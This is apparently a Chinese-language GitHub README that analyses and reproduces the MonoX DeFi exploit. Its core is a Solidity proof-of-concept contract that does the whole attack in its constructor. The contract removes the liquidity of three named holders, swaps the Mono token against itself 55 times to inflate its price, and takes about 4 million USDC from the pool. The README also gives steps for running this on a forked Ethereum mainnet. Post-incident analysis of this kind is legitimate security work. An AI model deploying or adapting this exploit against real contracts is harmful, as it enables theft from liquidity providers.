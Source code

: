 # MonoX_Vul
MonoX被攻击事件的分析和复现

[攻击事件的分析](https://github.com/W2Ning/MonoX_Vul_/blob/main/MonoX%E6%94%BB%E5%87%BB%E4%BA%8B%E4%BB%B6%E5%88%86%E6%9E%90.md)


[完整攻击代码](https://github.com/W2Ning/MonoX_Vul_/blob/main/poc.sol)

### 核心攻击代码

* 注意下面的代码缺少Interface, 不能直接复制
* 所有的攻击步骤都在`constructor()`中实现, 也就是说当合约部署完成,攻击也已经完成
* 本次复现仅做原理性验证, 攻击者通过闪电贷来避免滑点,实现利益最大化
* 但其实不调用闪电贷,攻击的主要步骤也已经完成,所以攻击者的后续操作就没有再跟进
* POC只尝试从池子中拿走400万`USDC`,就结束了攻击

```js
contract POC{

    address WETH9_Address = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;

    address Mono_Token_Address = 0x2920f7d6134f4669343e70122cA9b8f19Ef8fa5D;

    address MonoXPool_Address = 0x59653E37F8c491C3Be36e5DD4D503Ca32B5ab2f4;

    address Monoswap_address =  0xC36a7887786389405EA8DA0B87602Ae3902B88A1;
    // 无辜的大户地址1
    address Innocent_user_1 = 0x7B9aa6ED8B514C86bA819B99897b69b608293fFC;
    // 无辜的大户地址2
    address Innocent_user_2 = 0x81D98c8fdA0410ee3e9D7586cB949cD19FA4cf38;
    // 无辜的大户地址3
    address Innocent_user_3 = 0xab5167e8cC36A3a91Fd2d75C6147140cd1837355;

    address USDC_Address =  0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48;

    uint256 Amount_Of_MonoToken_On_XPool;

    uint256 public Amount_Of_USDC_On_XPool;
    
    uint256 public Amoount_Of_Mono_On_This; 


    constructor()  public payable{
        // 把MonoToken的全部额度授权给MonoSwap 
        MonoToken(Mono_Token_Address).approve(Monoswap_address,type(uint256).max);
        // 把0.1个ETH换成0.1个WETH
        WETH9(WETH9_Address).deposit{value:address(this).balance,gas:40000}();
        // 把0.1个WETH的额度授权给MonoSwap
        WETH9(WETH9_Address).approve(Monoswap_address,0.1 ether);
        // 用0.1个WETH在MonoSwap上购买MonoToken
        Monoswap(Monoswap_address).swapExactTokenForToken(WETH9_Address,Mono_Token_Address,0.1 ether,1,address(this),block.timestamp);
        // 把XPool中三个大户的流动性全部剔除
        RemoveLiquidity_From_3_Users();
        // 添加自己的流动性
        Monoswap(Monoswap_address).addLiquidity(Mono_Token_Address,196875656,address(this));
        // 用Mono换Mono 共55次
        Swap_Mono_for_Mono_55_Times();
        // 用极少量的Mono换到400万的USDC
        Swap_Mono_For_USDC();

    }


    function RemoveLiquidity_From_3_Users() internal{
        uint256 balance_Of_User1 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_1,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User1,Innocent_user_1,0,1);

        uint256 balance_Of_User2 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_2,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User2,Innocent_user_2,0,1);

        uint256 balance_Of_User3 = MonoXPool(MonoXPool_Address).balanceOf(Innocent_user_3,10);

        Monoswap(Monoswap_address).removeLiquidity(Mono_Token_Address,balance_Of_User3,Innocent_user_3,0,1);
    }

    function Swap_Mono_for_Mono_55_Times() internal{

        for(uint256 i=0;i < 55; i++){

            (,,,,,,Amount_Of_MonoToken_On_XPool,,) = Monoswap(Monoswap_address).pools(Mono_Token_Address);

            Monoswap(Monoswap_address).swapExactTokenForToken(Mono_Token_Address,Mono_Token_Address,Amount_Of_MonoToken_On_XPool-1,0,address(this),block.timestamp);
            
        }
    }

    function Swap_Mono_For_USDC() internal{

        (,,,,,,Amount_Of_USDC_On_XPool,,) = Monoswap(Monoswap_address).pools(USDC_Address);

        Amoount_Of_Mono_On_This = MonoToken(Mono_Token_Address).balanceOf(address(this));

        Monoswap(Monoswap_address).swapTokenForExactToken(Mono_Token_Address,USDC_Address,Amoount_Of_Mono_On_This,4000000000000,msg.sender,block.timestamp);
    }


    receive() payable external{}


    function onERC1155Received(address _operator, address _from, uint256 _id, uint256 _value, bytes calldata _data) external returns(bytes4){
        bytes4 a = 0xf23a6e61;
        return a;
    }
```

### 复现方法

* 主网上的攻击发生在高度为`13715026`的块上, 所以同样我们选前一个块去fork

```
npx ganache-cli  --fork https://eth-mainnet.alchemyapi.io/v2/Your_API_KEY@13715025   -l 4294967295
```

* 部署攻击合约 注意部署时要带上100个`Finney`, 也就是0.1个`ETH`

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E9%83%A8%E7%BD%B2%E6%94%BB%E5%87%BB%E5%90%88%E7%BA%A6.png)

* 攻击前的MetaMask钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%89%8D%E7%9A%84MetaMask%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

* 攻击后的钱包余额

![image](https://github.com/W2Ning/MonoX_Vul_/blob/main/images/%E6%94%BB%E5%87%BB%E5%90%8E%E7%9A%84%E9%92%B1%E5%8C%85%E4%BD%99%E9%A2%9D.png)

